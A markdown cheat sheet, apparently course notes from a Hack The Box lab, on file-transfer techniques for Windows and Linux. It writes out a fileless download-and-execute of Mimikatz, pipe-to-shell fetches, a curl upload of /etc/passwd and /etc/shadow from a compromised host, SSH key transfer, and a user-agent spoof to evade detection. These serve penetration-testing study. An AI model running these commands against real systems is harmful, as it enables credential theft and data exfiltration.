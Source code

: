 #files #cybersec #transfering #powershell #linux #http/s #download #upload
## Windows File transfer methods

##### encdoe ssh key to base64

1. generate hash of key
```bash 
md5sum id_rsa
```
2. encode key to base64
``` bash
cat id_rsa |base64 -w 0;echo
```
3. decode and write on windows host
``` powershell
[IO.File]::WriteAllBytes("C:\Users\Public\id_rsa", [Convert]::FromBase64String("base64blob="))
```
4. confirm hash
``` powershell
Get-FileHash C:\Users\Public\id_rsa -Algorithm md5
```

#### powershell web download

| **Method**                                                                                                               | **Description**                                                                                                            |
| ------------------------------------------------------------------------------------------------------------------------ | -------------------------------------------------------------------------------------------------------------------------- |
| [OpenRead](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.openread?view=net-6.0)                       | Returns the data from a resource as a [Stream](https://docs.microsoft.com/en-us/dotnet/api/system.io.stream?view=net-6.0). |
| [OpenReadAsync](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.openreadasync?view=net-6.0)             | Returns the data from a resource without blocking the calling thread.                                                      |
| [DownloadData](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloaddata?view=net-6.0)               | Downloads data from a resource and returns a Byte array.                                                                   |
| [DownloadDataAsync](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloaddataasync?view=net-6.0)     | Downloads data from a resource and returns a Byte array without blocking the calling thread.                               |
| [DownloadFile](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloadfile?view=net-6.0)               | Downloads data from a resource to a local file.                                                                            |
| [DownloadFileAsync](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloadfileasync?view=net-6.0)     | Downloads data from a resource to a local file without blocking the calling thread.                                        |
| [DownloadString](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloadstring?view=net-6.0)           | Downloads a String from a resource and returns a String.                                                                   |
| [DownloadStringAsync](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloadstringasync?view=net-6.0) | Downloads a String from a resource without blocking the calling thread.                                                    |
###### examples:

``` powershell
(New-Object Net.WebClient).DownloadFile('<Target File URL>','<Output File Name>')
```

```powershell
(New-Object Net.WebClient).DownloadFileAsync('<Target File URL>','<Output File Name>')
```

##### Fileless method using ps

``` powershell
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')
```
or
```powershell
(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1') | IEX
```

##### wget

```powershell
Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 -OutFile PowerView.ps1
```

### SMB donwloads
```shell
sudo impacket-smbserver share -smb2support /tmp/smbshare
```

<span style="background:#ff4d4f">New versions of Windows block unauthenticated guest access</span>

```shell
sudo impacket-smbserver share -smb2support /tmp/smbshare -user test -password test
```

```powershell  
net use n: \\192.168.220.133\share /user:test test
```

### FTP 

 #### Installing the FTP Server Python3 Module - pyftpdlib
 
```shell
sudo pip3 install pyftpdlib
```

```shell
sudo python3 -m pyftpdlib --port 21
```

#### Transferring Files from an FTP Server Using PowerShell

```powershell
(New-Object Net.WebClient).DownloadFile('ftp://192.168.49.128/file.txt', 'C:\Users\Public\ftp-file.txt'
```

## Linux downlaods

#### wget
```shell
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh
```

curl
```shell
curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
```

### filles downloads

```shell
curl https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh | bash
```

```shell
 wget -qO- https://raw.githubusercontent.com/juliourena/plaintext/master/Scripts/helloworld.py | python3
```


### upload server

```shell
sudo python3 -m pip install --user uploadserver
```

#### Pwnbox - Create a Self-Signed Certificate

```shell
openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'
```

```shell
mkdir https && cd https
```

```shell
sudo python3 -m uploadserver 443 --server-certificate ~/server.pem
```

### from compromised host

```shell
curl -X POST https://192.168.49.128/upload -F 'files=@/etc/passwd' -F 'files=@/etc/shadow' --insecure
```

#### Linux - Creating a Web Server with Python3

```shell
python3 -m http.server
```

## Miscellaneous File Transfer Methods

#### Mounting a Linux Folder Using rdesktop
```shell
rdesktop 10.10.10.132 -d HTB -u administrator -p 'Password0@' -r disk:linux='/home/user/rdesktop/files'
```
#### Mounting a Linux Folder Using xfreerdp
```shell
xfreerdp /v:10.10.10.132 /d:HTB /u:administrator /p:'Password0@' /drive:linux,/home/plaintext/htb/academy/filetransfer
```


# living of the land

## Using the LOLBAS and GTFOBins Project

LOLBAS  -> /upload , /download
GTFOBins > +file download or + file upload

## Evade detection

#### Listing out User Agents

```powershell
[Microsoft.PowerShell.Commands.PSUserAgent].GetProperties() | Select-Object Name,@{label="User Agent";Expression={[Microsoft.PowerShell.Commands.PSUserAgent]::$($_.Name)}} | fl
```

#### Request with Chrome User Agent

```powershell

$UserAgent = [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome

Invoke-WebRequest http://10.10.10.32/nc.exe -UserAgent $UserAgent -OutFile "C:\Users\Public\nc.exe"
```

LOLBAS & GTFOBINS

